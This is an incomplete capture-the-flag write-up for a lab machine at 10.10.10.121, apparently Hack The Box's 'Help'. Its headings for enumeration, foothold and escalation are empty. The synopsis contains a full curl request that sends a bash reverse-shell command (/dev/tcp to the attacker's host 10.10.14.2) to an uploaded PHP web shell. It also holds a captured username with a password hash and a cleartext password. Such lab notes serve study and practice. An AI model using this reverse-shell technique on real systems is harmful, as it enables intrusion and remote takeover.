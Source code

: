 Name & IP Address of Machine:
> # HELP :`10.10.10.121`
**Table Of Contents:**
<!-- TOC -->

- [Synopsis](#synopsis)
- [`godhelpmeplz`](#godhelpmeplz)
- [Enumeration](#enumeration)
    - [Opened Ports:](#opened-ports)
- [FootHold](#foothold)
- [Lateral Movement](#lateral-movement)
- [Privilege Escalation](#privilege-escalation)

<!-- /TOC -->

## Synopsis
```bash
curl -i -s -k -X $'POST' \
    -H $'Host: 10.10.10.121' -H $'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0' -H $'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8' -H $'Accept-Language: en-US,en;q=0.5' -H $'Accept-Encoding: gzip, deflate' -H $'DNT: 1' -H $'Connection: close' -H $'Upgrade-Insecure-Requests: 1' -H $'Sec-GPC: 1' -H $'Content-Length: 58' -H $'Content-Type: application/x-www-form-urlencoded' \
    -b $'lang=english; PHPSESSID=l0qdvhg6md71rauhluvnr0lrc5' \
    --data-binary $'cmd=bash+-c+\"bash+-i+>%26+/dev/tcp/10.10.14.2/9009+0>%261\"' \
    $'http://10.10.10.121/support/uploads/tickets/97b8c836b3cea3fa59e62fb187eb9f61.php'
```
```json
{
  "data": {
    "user": {
      "username": "helpme@helpme.com",
      "password": "5d3c93182bb20f07b994a7f617e99cff"
    }
  }
}
```
`godhelpmeplz`
---

## Enumeration

---
#### Opened Ports: 
- [ ] x

---

## FootHold

---

## Lateral Movement

---

## Privilege Escalation

---
